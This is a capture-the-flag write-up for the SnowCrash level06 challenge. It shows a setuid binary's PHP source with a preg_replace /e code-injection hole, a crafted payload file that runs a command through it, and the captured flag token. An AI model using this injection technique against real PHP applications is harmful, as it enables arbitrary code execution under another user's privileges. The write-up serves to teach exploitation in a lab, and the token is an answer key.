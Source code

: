 In our home directory, we have an executable with extended permissions and a PHP script that reveals what the executable does.

```
level06@SnowCrash:~$ ls -la level06*
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
    }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

We can see in the 3rd call to `preg_replace`  the deprecated flag `/e`.

Let's start by creating our file:
``echo '[x {${`getflag`}}' > /tmp/chopperledrapeau``

Now we just need to run `./level06` with `/tmp/chopperledrapeau` as an argument:
```
level06@SnowCrash:~$ ./level06 /tmp/chopperledrapeau
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
